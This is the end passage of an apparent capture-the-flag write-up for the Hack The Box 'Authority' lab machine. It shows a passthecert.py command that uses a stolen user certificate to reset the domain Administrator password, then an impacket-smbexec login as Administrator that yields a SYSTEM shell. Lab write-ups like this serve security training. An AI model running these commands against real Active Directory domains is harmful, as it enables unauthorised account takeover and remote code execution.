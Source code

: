 so I did

I've changed the administrator password... sorry mon .. sorry dad I'm a failure. 

```sh
 python3 passthecert.py \
	 -action modify_user \
	 -crt user.crt \
	 -key user.key \
	 -domain authority.htb \
	 -dc-ip 10.129.12.250 \
	 -target administrator \
	 -new-pass
```

```
DxV5FHG8boKotJjKpqY69hn8OmJkWs5g
```

![](images/failure.png)


And that's how we got system ^^

```sh
impacket-smbexec  \
  'authority.htb/Administrator:DxV5FHG8boKotJjKpqY69hn8OmJkWs5g@10.129.12.250'
```
![](images/system.png)

